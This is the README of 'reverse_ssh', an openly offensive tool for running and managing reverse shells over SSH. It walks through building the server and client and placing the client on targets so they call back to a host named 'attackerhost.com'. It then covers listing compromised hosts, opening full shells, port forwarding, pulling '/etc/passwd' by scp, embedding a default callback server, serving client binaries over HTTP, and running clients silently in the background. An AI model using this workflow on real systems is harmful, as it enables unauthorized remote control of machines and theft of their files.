 # Reverse SSH

Want to use SSH for reverse shells? Now you can.  

- Manage and connect to reverse shells with native SSH syntax
- Dynamic, local and remote forwarding with simple jumphost syntax
- Native SCP implementation for retrieving files from your targets
- Full windows shell even if the host is not supported by ConPty
- Mutual client & server authentication to create high trust control channels  
And more! 


```text
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+   RSSH  |
                    |    Reverse     |       |         |  Client |
                    |  SSH server    |       |         |         |
                    |                |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |   SSH   |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         |   RSSH  |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         |   RSSH  |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```

## TL;DR

```sh
git clone https://github.com/NHAS/reverse_ssh

cd reverse_ssh

make
cd bin/

# start the server
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232

# copy client to your target then connect to the server
./client attackerhost.com:3232

# Get help text
ssh localhost -p 3232 help

# See clients
ssh localhost -p 3232 ls -t

                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root.wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+


# Connect to full shell
ssh -J localhost:3232 0f6ffecb15d75574e5e955e014e0546f6e2851ac

# Or using hostname 

ssh -J localhost:3232 root.wombo

```

## Setup Instructions

> **NOTE:** reverse_ssh requires Go **1.16** or higher. Please check you have at least this version via `go version`

The simplest build command is just:

```sh
make
```

Make will build both the `client` and `server` binaries. It will also generate a private key for the `client`, and copy the corresponding public key to the `authorized_controllee_keys` file to enable the reverse shell to connect.
If you need to build the client for a different architecture.

```sh
GOOS=linux GOARCH=amd64 make client
GOOS=windows GOARCH=amd64 make client # will create client.exe
```

You will need to create an `authorized_keys` file, containing *your* public key.
This will allow you to control whatever server catches.
Alternatively, you can use the --authorizedkeys flag to point to a file.

```sh
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control, then connect to the server.

```sh
./client yourserver.com:3232
```

You can then see what reverse shells have connected to you using `ls`:

```sh
ssh yourserver.com -p 3232 ls
                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root.wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+

```

Then typical ssh commands work, just specify your rssh server as a jump host. 

```sh
# Connect to full shell
ssh -J youserver.com:3232 root.wombo

# Run a command without pty
ssh -J youserver.com:3232 root.wombo ls

# Start remote forward 
ssh -R 1234:localhost:1234 -J youserver.com:3232 root.wombo ls

# Start dynamic forward 
ssh -D 9050 -J youserver.com:3232 root.wombo ls

# SCP 
scp -J youserver.com:3232 root.wombo:/etc/passwd .

```

## Fancy Features

### Default Server

At build time, you can specify a default server for the client binary to connect to:

```sh
$ RSSH_HOMESERVER=localhost:1234 make

# Will connect to localhost:1234, even though no destination is specified
$ bin/client

# Behaviour is otherwise normal; will connect to example.com:1234
$ bin/client example.com:1234
```

### Built in Web Server

RSSH runs an HTTP server which serves client binaries that are compiled on the fly, for whatever platform you specify. 

E.g

If your rssh server is listening on `:8080` doing the following will download a binary compiled for linux. 

```sh
wget http://localhost:8080/linux 
chmod +x {filename}
```


### Full Windows Shell Support

Most reverse shells for windows struggle to generate a shell environment that supports resizing, copying and pasting and all the other features that we're all very fond of. 
This project uses conpty on newer versions of windows, and the winpty library (which self unpacks) on older versions. This should mean that almost all versions of windows will net you a nice shell. 

## Foreground vs Background (Important note about clients)

By default, clients will run in the background. When started they will execute a new background instance (thus forking a new child process) and then the parent process will exit. If the fork is successful the message "Ending parent" will be printed.

This has one important ramification: once in the background a client will not show any output, including connection failure messages. If you need to debug your client, use the `--foreground` flag.
